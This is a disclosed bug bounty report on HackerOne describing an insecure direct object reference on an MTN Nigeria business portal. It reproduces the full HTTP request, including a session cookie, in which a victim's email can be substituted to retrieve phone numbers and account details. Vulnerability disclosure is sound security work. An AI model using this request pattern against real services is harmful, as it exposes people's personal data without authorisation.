 # IDOR at mtnmobad.mtnbusiness.com.ng leads to PII leakage. 

## Report Details
- **Report ID**: 1773609
- **URL**: https://hackerone.com/reports/1773609
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2022-11-14T21:08:00.883Z
- **Disclosed**: 2024-10-05T10:28:36.209Z

## Reporter
- **Username**: hazemhussien99
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: mtn_group

## Vulnerability Information
## Summary:
Hello team, i found an IDOR at `https://mtnmobad.mtnbusiness.com.ng/` that allows an attacker to enumerate data such as personal phone number and and account information justt from knowing the email.

The vulnerable request is the following:
```
POST /app/getUserNotes HTTP/1.1
Host: mtnmobad.mtnbusiness.com.ng
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json
Content-Length: 195
Origin: https://mtnmobad.mtnbusiness.com.ng
Connection: close
Referer: https://mtnmobad.mtnbusiness.com.ng/
Cookie: G_ENABLED_IDPS=google; connect.sid=s%3ATYGgZ8wqgEinB9zX0d7-OdZyt2jXa_ev.hQw0FOvTD5bB159jCtqA%2BXv7z%2FHROL%2B2vSS6mNK%2FqVg
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin

{"params":{"updates":[{"param":"user","value":{"userEmail":"<PUT_VICTIM_EMAIL_HERE>"},"op":"a"}],"cloneFrom":{"updates":null,"cloneFrom":null,"encoder":{},"map":null},"encoder":{},"map":null}}
```

Simply replace the place holder `<PUT_VICTIM_EMAIL_HERE>` with the victim's email and you can see private data about his account such as phone number and account information, as you can see that's PII information being leaked.

## Impact

PII leakage.

## Attachments
No attachments
